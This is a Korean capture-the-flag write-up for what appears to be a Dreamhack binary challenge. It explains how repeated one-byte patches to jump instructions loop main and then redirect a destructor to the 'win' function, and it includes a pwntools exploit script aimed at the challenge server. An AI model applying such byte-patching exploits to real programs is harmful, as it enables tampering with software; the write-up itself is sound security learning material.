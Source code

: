 처음엔 1바이트만 바꿔서 `win` 함수를 부를 수 있을지 생각해봤다. 좀 고민한 끝에 안 된다는 것을 깨달았다.
그럼 1바이트만 바꿔서 `main` 함수를 계속 부를 수 있어야 한다.
`jz      short locret_132A`
이용해주면 된다. 항상 참이므로 뛰는 값만 조절하면 `main` 함수 초반으로 돌아갈 수 있어서 원하는 만큼 조작이 가능하다.

그 후는 다양한 방법으로 `win` 함수를 부를 수 있는데, 나는 `_fini_array`에 있는 `__do_global_dtors_aux` 함수를 사용하였다.
`jnz     short locret_11D8`
여기서 `jnz`를 `jz`로 바꾸고 뛰는 값을 조절한 뒤, `main` 무한 반복을 풀어주면 `win` 함수를 호출할 수 있다.

브포로 딱 1바이트만 바꿔서 성공하신 분 제외하고는 익스 코드가 짧은 편에 속하는 것 같다.
# exploit.py

```python
from pwn import *
from time import *

p = remote('host1.dreamhack.games', 14712)
#p = process('./prob')

p.sendlineafter(b': ', str(0x324).encode())
p.sendlineafter(b': ', str((0x2b3 - 0x325) & 0xff).encode())

sleep(1)
p.sendline(str(0x1ab).encode())
p.sendlineafter(b': ', str(0x74).encode())

sleep(1)
p.sendline(str(0x1ac).encode())
p.sendlineafter(b': ', str(0xed - 0xab - 2).encode())

sleep(1)
p.sendline(str(0x324).encode())
p.sendlineafter(b': ', str(0x5).encode())
p.interactive()
```